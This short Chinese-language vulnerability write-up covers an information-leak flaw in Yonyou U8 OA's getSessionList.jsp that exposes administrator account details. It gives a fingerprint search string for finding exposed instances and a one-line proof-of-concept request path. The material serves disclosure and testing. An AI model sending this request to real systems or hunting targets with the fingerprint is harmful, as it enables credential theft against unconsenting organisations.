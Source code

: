 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

```
用友 U8 OA
```

## 网络测绘

```
"用友U8-OA"
```

## 漏洞复现

登录页面

![image-20220520141805589](images/202205201418731.png)

验证POC

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![image-20220520141832426](images/202205201418464.png)